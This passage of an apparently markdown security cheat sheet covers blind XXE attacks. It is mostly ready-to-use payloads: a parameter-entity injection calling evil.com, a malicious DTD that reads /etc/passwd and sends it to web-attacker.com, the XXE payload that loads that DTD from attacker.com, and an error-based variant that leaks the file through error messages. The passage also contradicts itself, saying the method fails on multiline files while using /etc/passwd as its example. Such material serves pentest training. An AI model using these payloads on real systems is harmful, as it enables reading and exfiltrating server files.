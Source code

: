 Sometimes, when a server\'s response doesn\'t contain any part of the sent XML body, an XXE vulnerability might still exist. This can be tested using the Burp Collaborator.

### XML Parameter Entities

Sometimes,applications block using entities for security reasons. However you can still inject external entities using *XML Parameter Entities*. Here is a sample payload:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % param SYSTEM "http://evil.com"> %param; ]>
<yeet>data</yeet>
```

### Data Ex-filtration

1.  With SSRF

    Ex-filtrating data from blind XXE vulnerabilities is possible using a malicious [DTD](https:www.w3schools.com/xml/xml_dtd.asp). In order to exploit it, we need a server to serve a malicious DTD. Here is an example DTD:

    ``` xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;
    ```

    You can then host this in a file under your server, accessible from a URL like `http://attacker.com/extractpasswd.dtd`. You can then use this file in an XXE payload like this:

    ``` xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/extractpasswd.dtd"> %xxe;]>
    <yeet>data</yeet>
    ```

    This method doesn\'t work in multiline files however, so it can be used to leak files like `/etc/hostname`.

2.  With Error Messages

    If a web application returns error messages which can possibly contain details of an entity, this too can be exploited using a DTD. DTD Document:

    ``` xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;
    ```

    XXE Payload:

    ``` xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/error.dtd"> %xxe;]>
    <yeet>data</yeet>
    ```
